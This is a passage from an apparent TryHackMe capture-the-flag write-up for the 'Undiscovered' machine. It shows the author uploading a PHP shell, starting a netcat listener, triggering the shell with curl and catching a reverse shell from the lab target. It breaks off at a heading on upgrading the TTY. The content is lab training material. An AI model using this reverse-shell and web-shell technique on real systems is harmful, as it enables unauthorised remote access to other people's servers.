 ![5](/assets/images/thm/undiscovered/5.png)

And the file is uploaded successfully.

### Listening on our box
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ nc -nvlp 9001
Listening on 0.0.0.0 9001
```
### Using a reverse shell payload
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ curl http://deliver.undiscovered.thm/media/shell.php 
```
And we got a connection back.
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.20.167 60744
/bin/sh: 0: can't access tty; job control turned off
$ 
```
## Getting a proper TTY
Now lets get a proper shell with auto completion.
